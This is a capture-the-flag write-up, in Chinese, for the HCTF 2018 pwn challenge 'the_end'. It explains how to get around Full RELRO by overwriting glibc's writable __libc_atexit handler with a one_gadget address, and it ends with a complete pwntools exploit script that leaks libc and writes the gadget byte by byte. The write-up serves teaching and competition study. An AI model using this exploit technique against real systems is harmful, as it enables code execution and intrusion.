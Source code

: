 ## Pwn

```
// file
the_end: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4a46a73f8c01b2498d7bbc69dfbf585ab84b5625, not stripped

// checksec
[*] '/tmp/tmp/hctf2018/pwn-the_end/the_end'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

程式流程很簡單，先給你 libc address，關閉 stdout、stderr 後，讓你寫 4 次任意位置，每次寫 1 個 bytes:

```c
 ...
  for ( i = 0; i <= 4; ++i )
  {
    read(0, &buf, 8uLL);
    read(0, buf, 1uLL);
  }
 ...
```

此題因為 Full Relro 的關係，不能做 link_map attack，因此要想其他方法，而在 `exit() -> __run_exit_handlers()` 執行時，在 `__run_exit_handlers()` 的最後會呼叫:

```c
 ...
  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
 ...
```

預設 `run_list_atexit` 為 true，因此 `__libc_atexit` 會被執行到，而 `__libc_atexit` 放的是 `__elf_set___libc_atexit_element__IO_cleanup__`，`__elf_set___libc_atexit_element__IO_cleanup__` 又會指向 `_IO_cleanup` 來清除 IO，有趣的一點是，`__elf_set___libc_atexit_element__IO_cleanup__` 本身是可寫的，因此可以把 one_gadget 寫在這，

```python
#!/usr/bin/python3
                
from pwn import *
                
r = process("./the_end")
                
r.recvuntil('here is a gift ')
libc = int(r.recvuntil(', ', drop=True), 16) - 0xe5f40
__elf_set___libc_atexit_element__IO_cleanup__ = libc + 0x1ed608
info(f"libc: {hex(libc)}")
info(f"target: {hex(__elf_set___libc_atexit_element__IO_cleanup__)}")
                
ogs = [0xe6c7e, 0xe6c81, 0xe6c84]
og = libc + ogs[0]
input()         
for i in range(5):                                                                                                                                                           
    sleep(0.1)  
    r.send(p64(__elf_set___libc_atexit_element__IO_cleanup__ + i)) 
    sleep(0.1)  
    r.send(bytes([(og >> i*8) & 0xff]))
```